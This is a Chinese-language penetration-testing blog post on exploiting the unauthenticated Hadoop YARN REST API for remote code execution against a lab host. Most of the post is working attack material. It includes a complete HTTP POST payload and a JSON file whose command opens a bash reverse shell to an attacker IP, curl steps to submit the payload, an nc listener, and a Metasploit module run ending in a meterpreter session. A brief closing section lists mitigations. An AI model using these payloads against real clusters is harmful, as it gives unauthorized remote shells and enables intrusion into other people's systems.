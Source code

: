 ```yaml
---
title: Hadoop
categories:
- [Kali, Exploit]
tags:
  - aa
date: 2020-12-04 20:23:31
top:
updated:
---
```


Hadoop是一个Apache基金会所开发的分布式基础架构， 核心设计是`HDFS`（即分布式文件系统）和`MapReduce`， \* HDFS 为海量数据提供存储 * MapReduce为海量数据提供计算


## 信息收集
```zsh
sudo nmap -sV -Pn -T4 -sSU -p 8088 -sC    192.168.79.207

Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-04 18:32 CST
Nmap scan report for 192.168.79.207
Host is up (0.00012s latency).

PORT     STATE  SERVICE    VERSION
8088/tcp open   http       Jetty 6.1.26
|_http-server-header: Jetty(6.1.26)
| http-title:     All Applications
|_Requested resource was http://192.168.79.207:8088/cluster
8088/udp closed radan-http

Nmap done: 1 IP address (1 host up) scanned in 6.81 seconds
```


## Hadoop Yarn（ResourceManager REST API)未授权漏洞

YARN提供有默认开放在8088和8090的REST API（默认前者）允许用户直接通过API进行相关的应用创建、任务提交执行等操作，如果配置不当， 攻击者利用Hadoop Yarn资源管理系统REST API未授权漏洞对服务器进行远程执行代码。


### 手工或BP测试

Payload

```
POST /ws/v1/cluster/apps HTTP/1.1
Host: 127.0.0.1:8088
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: application/json
Content-Length: 268

{
   "application-id":"application_1604979684298_0006",
    "application-name":"test",
    "application-type":"YARN",
    "am-container-spec":{
        "commands":{
            "command":"/bin/bash -i >& /dev/tcp/192.168.79.28/9999  0>&1"

        }
    }
 
}
```

![hadoop-1](../images/hadoop-1.png)

1.  申请新的application，记录`application-id`字段 直接通过curl进行POST请求

```
curl -v -X POST 'http://ip:8088/ws/v1/cluster/apps/new-application'
返回包含如下信息
{"application-id":"application_1527144634877_20465","maximum-resource-capability":{"memory":16384,"vCores":8}}
```

2.  使用nc监听9999端口 `nc -lvvp 9999`
3.  直接发送构造好的payload

```
curl -s -i -X POST -H 'Accept: application/json' -H 'Content-Type: application/json' http://ip:8088/ws/v1/cluster/apps --data-binary @1.json
```

1.json文件中的内容

```text
{
    "am-container-spec":{
        "commands":{
            "command":"/bin/bash -i >& /dev/tcp/192.168.79.28/9999  0>&1"

        }
    },
    "application-id":"application_1527144634877_20465",
    "application-name":"test",
    "application-type":"YARN"
}
```

### MSF测试

```
msf6 exploit(linux/http/hadoop_unauth_exec) > show options

Module options (exploit/linux/http/hadoop_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.79.28    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(linux/http/hadoop_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.79.28:4444
[*] Sending Command
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3008420 bytes) to 192.168.79.28
[*] Meterpreter session 2 opened (192.168.79.28:4444 -> 192.168.79.28:63414) at 2020-11-10 15:44:07 +0800

meterpreter >
```

### 修复建议：

- 如无必要，关闭Hadoop Web管理页面；
- 开启服务级别身份验证，如Kerberos认证；
- 部署Knox、Nginx之类的反向代理系统，防止未经授权用户访问；
- 限制可信任的IP地址才能访问Hadoop默认开放的多个端口